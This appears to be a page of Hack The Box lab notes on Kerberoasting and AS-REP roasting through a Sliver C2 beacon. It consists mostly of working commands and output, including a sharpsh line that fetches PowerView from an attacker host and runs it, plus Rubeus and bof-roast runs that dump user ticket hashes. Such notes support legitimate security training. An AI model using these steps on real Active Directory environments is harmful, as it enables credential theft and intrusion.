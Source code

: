 ```yaml
---
description: Checking SPNs on service accounts starting with setting up a pivot.
---
```


# Exploit Kerberos

### <mark style="color:yellow;">Kerberoasting</mark>

Using sharpsh we can enumerate kerberoastable account

```sh
# Encode base64
mczen@htb[/htb]$ echo "Get-NetUser -spn | select samaccountname,description" | base64
R2V0LU5ldFVzZXIgLXNwbiB8IHNlbGVjdCBzYW1hY2NvdW50bmFtZSxkZXNjcmlwdGlvbgo=

# Send PowerView command
sharpsh -- '-u http://10.10.14.62:8080/PowerView.ps1 -e -c "R2V0LU5ldFVzZXIgLXNwbiB8IHNlbGVjdCBzYW1hY2NvdW50bmFtZSxkZXNjcmlwdGlvbgo="'
```

Then use Rubeus to Kerberoast

```sh
inline-execute-assembly /home/kali/Rubeus.exe 'kerberoast /format:hashcat /user:alice /nowrap'
```

Or use c2tc

```sh
c2tc-kerberoast roast alices
```

### <mark style="color:yellow;">AS-REP Roasting</mark>

```shell-session
inline-execute-assembly /home/kali/Rubeus.exe 'asreproast /format:hashcat /user:bob /nowrap'
```

### <mark style="color:yellow;">Native aproach</mark>

Drop into a shell and use ` setspn.exe -Q`` `` `_`/`_.

```sh
sliver (http-beacon) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...
[*] Started remote shell with pid 3360

PS C:\Users\eric\Desktop> setspn.exe -Q */*
setspn.exe -Q */*
Checking domain DC=child,DC=htb,DC=local
CN=svc sql,OU=Service Account,DC=child,DC=htb,DC=local
	MSSQLSvc/srv02.child.htb.local:1433
	MSSQLSvc/srv02.child.htb.local:DB02
	MSSQLSvc/srv01.child.htb.local:1433
	MSSQLSvc/srv01.child.htb.local:DB01
CN=alice,CN=Users,DC=child,DC=htb,DC=local
	rdp/web01.child.htb.local
```

Using the bof-roast utility we can get the hash of Alice and convert it to a ticket using [apreq2hashcat.py](https://github.com/sliverarmory/BofRoast/blob/main/BofRoast/apreq2hashcat.py).

```sh
sliver (http-beacon) > bof-roast rdp/web01.child.htb.local

[*] Successfully executed bof-roast (coff-loader)
[*] Got output:
[+] Target SPN: rdp/web01.child.htb.local
[+] Got Ticket! Convert it with apreq2hashcat.py YIIGUgYJKoZIhvcSAQICAQBuggZBMIIGPaADAgEFoQMCAQ6iBwMFACAAAACjggRpYYIEZTCCBGGgAwIBBaERGw9DSElMRC5IVEIuTE9DQUyiJzAl <SNIP> CGqE=
```
